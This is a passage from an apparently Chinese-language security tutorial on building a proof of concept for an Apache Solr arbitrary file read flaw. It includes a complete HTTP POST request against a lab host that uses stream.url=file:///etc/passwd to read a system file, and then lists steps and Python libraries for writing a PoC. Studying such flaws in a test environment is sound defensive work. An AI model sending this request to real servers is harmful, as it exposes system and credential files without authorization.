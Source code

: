 依据响应包判断是否存在漏洞，状态包以及响应内容**"This response format is experimental.  It is likely to change in the future.**" 表示存在漏洞  
  
**第三步：读取文件/etc/passwd**  
```
POST /solr/demo/./debug/dump?param=ContentStreams HTTP/1.1
Host: 192.168.111.130:8983
Content-Length: 31
Cache-Control: max-age=0 
Upgrade-Insecure-Requests: 1 
Origin: http:/192.168.111.130:89833 
Content-Type: application/x-www-form-urlencoden 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36 
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Referer: http://192.168.111.130:8983/solr/demo/config
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6 
Connection: close

stream.url=file:///etc/passwd

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibuEvFUNXATTOMLCJ14qMrvHO5Ik4vn4z4TZuW9L1QXvSHUkhiaibVTaIjw/640?wx_fmt=png&from=appmsg "")  
## poc分析   
  
构建poc的基础操作  
```
1、利用开源的POC框架，也可以自己写框架（建议使用poc框架）
2、熟悉漏洞原理
3、搭建漏洞靶场环境
4、选择编程语言（常用python)
    常用python库：
       urllib2: 发送HTTP/HTTPS请求
       requests:更“高级”的urllib2库
       re：正则表达式
       random：生成随机数
       base64：base64编码
       hashlib:常用来计算md5值
       time：用来统计访问时间延迟  等等。。。

```  
  
这里使用python进行编写  
```
引入python模块

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibuqqSL9RHhI029lR4rQ1T5fZ8uWEVwXMVftpnf07tMWBOcAQKamiczb9Q/640?wx_fmt=png&from=appmsg "")  
  